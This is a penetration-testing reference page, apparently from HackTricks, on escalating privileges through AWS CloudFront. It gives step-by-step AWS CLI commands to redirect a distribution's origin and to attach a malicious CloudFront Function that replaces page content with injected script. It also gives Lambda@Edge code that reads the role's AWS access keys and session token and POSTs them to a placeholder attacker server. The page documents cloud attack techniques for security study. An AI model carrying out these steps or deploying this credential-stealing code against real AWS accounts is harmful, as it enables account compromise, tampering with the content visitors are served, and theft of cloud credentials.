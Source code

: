 # AWS - CloudFront Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## CloudFront

### `cloudfront:UpdateDistribution` & `cloudfront:GetDistributionConfig`

An attacker who has cloudfront:UpdateDistribution and cloudfront:GetDistributionConfig permissions can modify a CloudFront distribution’s configuration. They don’t need permissions on the target S3 bucket itself, although the attack is easier if that bucket has a permissive policy that allows access from the cloudfront.amazonaws.com service principal.

The attacker changes a distribution’s origin configuration to point to another S3 bucket or to a server controlled by the attacker. First they fetch the current distribution configuration:

```bash
aws cloudfront get-distribution-config --id <distribution-id> | jq '.DistributionConfig' > current-config.json
```

Then they edit current-config.json to point the origin to the new resource — for example, a different S3 bucket:

```bash
...
"Origins": {
  "Quantity": 1,
  "Items": [
    {
      "Id": "<origin-id>",
      "DomainName": "<new-bucket>.s3.us-east-1.amazonaws.com",
      "OriginPath": "",
      "CustomHeaders": {
        "Quantity": 0
      },
      "S3OriginConfig": {
        "OriginAccessIdentity": "",
        "OriginReadTimeout": 30
      },
      "ConnectionAttempts": 3,
      "ConnectionTimeout": 10,
      "OriginShield": {
        "Enabled": false
      },
      "OriginAccessControlId": "E30N32Y4IBZ971"
    }
  ]
},
...
```

Finally, apply the modified configuration (you must supply the current ETag when updating):

```bash
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution \
  --id <distribution-id> \
  --distribution-config file://current-config.json \
  --if-match $CURRENT_ETAG
  ```

### `cloudfront:UpdateFunction`, `cloudfront:PublishFunction`, `cloudfront:GetFunction`, `cloudfront:CreateFunction` and `cloudfront:AssociateFunction`
An attacker needs the permissions cloudfront:UpdateFunction, cloudfront:PublishFunction, cloudfront:GetFunction, cloudfront:CreateFunction and cloudfront:AssociateFunction to manipulate or create CloudFront functions.

The attacker creates a malicious CloudFront Function that injects JavaScript into HTML responses:

```bash
function handler(event) {
  var request = event.request;
  var response = event.response;
  // Create a new body with malicious JavaScript
  var maliciousBody = `
  <!DOCTYPE html>
  <html>
  <head>
  <title>Compromised Page</title>
  </head>
  <body>
  <h1>Original Content</h1>
  <p>This page has been modified by CloudFront Functions</p>
  <script>
  // Malicious JavaScript
  alert('CloudFront Function Code Injection Successful!');
  </script>
  </body>
  </html>
  `;
  // Replace the body entirely
  response.body = { encoding: "text", data: maliciousBody };
  // Update headers
  response.headers["content-type"] = { value: "text/html; charset=utf-8" };
  response.headers["content-length"] = {
    value: maliciousBody.length.toString(),
  };
  response.headers["x-cloudfront-function"] = { value: "malicious-injection" };
  return response;
}
```

Commands to create, publish and attach the function:

```bash
# Create the malicious function in CloudFront
aws cloudfront create-function --name malicious-function --function-config '{
    "Comment": "Malicious CloudFront Function for Code Injection",
    "Runtime": "cloudfront-js-1.0"
}' --function-code fileb://malicious-function.js

# Get the ETag of the function in DEVELOPMENT stage
aws cloudfront describe-function --name malicious-function --stage DEVELOPMENT --query 'ETag' --output text

# Publish the function to LIVE stage
aws cloudfront publish-function --name malicious-function --if-match <etag>
```

Add the function to the distribution configuration (FunctionAssociations):

```bash
"FunctionAssociations": {
  "Quantity": 1,
  "Items": [
    {
      "FunctionARN": "arn:aws:cloudfront::<account-id>:function/malicious-function",
      "EventType": "viewer-response"
    }
  ]
}
```

Finally update the distribution configuration (remember to supply the current ETag):

```bash
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution --id <distribution-id> --distribution-config file://current-config.json --if-match $CURRENT_ETAG
```

### `lambda:CreateFunction`, `lambda:UpdateFunctionCode`, `lambda:PublishVersion`, `iam:PassRole` & `cloudfront:UpdateDistribution`

An attacker needs the lambda:CreateFunction, lambda:UpdateFunctionCode, lambda:PublishVersion, iam:PassRole and cloudfront:UpdateDistribution permissions to create and associate malicious Lambda@Edge functions. A role that can be assumed by the lambda.amazonaws.com and edgelambda.amazonaws.com service principals is also required.

The attacker creates a malicious Lambda@Edge function that steals the IAM role credentials:

```bash
// malicious-lambda-edge.js
exports.handler = async (event) => {
  // Obtain role credentials
  const credentials = {
    accessKeyId: process.env.AWS_ACCESS_KEY_ID,
    secretAccessKey: process.env.AWS_SECRET_ACCESS_KEY,
    sessionToken: process.env.AWS_SESSION_TOKEN,
  };
  // Send credentials to attacker's server
  try {
    await fetch("https://<attacker-ip>/steal-credentials", {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify(credentials)
    });
  } catch (error) {
    console.error("Error sending credentials:", error);
  }
  if (event.Records && event.Records[0] && event.Records[0].cf) {
    // Modify response headers
    const response = event.Records[0].cf.response;
    response.headers["x-credential-theft"] = [
      {
        key: "X-Credential-Theft",
        value: "Successful",
      },
    ];
    return response;
  }
  return {
    statusCode: 200,
    body: JSON.stringify({ message: "Credentials stolen" })
  };
};
```

```bash
# Package the Lambda@Edge function
zip malicious-lambda-edge.zip malicious-lambda-edge.js

# Create the Lambda@Edge function with a privileged role
aws lambda create-function \
    --function-name malicious-lambda-edge \
    --runtime nodejs18.x \
    --role <privileged-role-arn> \
    --handler malicious-lambda-edge.handler \
    --zip-file fileb://malicious-lambda-edge.zip \
    --region <region>

# Publish a version of the function
aws lambda publish-version --function-name malicious-lambda-edge --region <region>
```

Then the attacker updates the CloudFront distribution configuration to reference the published Lambda@Edge version:

```bash
"LambdaFunctionAssociations": {
  "Quantity": 1,
  "Items": [
    {
      "LambdaFunctionARN": "arn:aws:lambda:us-east-1:<account-id>:function:malicious-lambda-edge:1",
      "EventType": "viewer-response",
      "IncludeBody": false
    }
  ]
}
```

```bash
# Apply the updated distribution config (must use current ETag)
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution \
  --id <distribution-id> \
  --distribution-config file://current-config.json \
  --if-match $CURRENT_ETAG

# Trigger the function by requesting the distribution
curl -v https://<distribution-domain>.cloudfront.net/
```

{{#include ../../../../banners/hacktricks-training.md}}



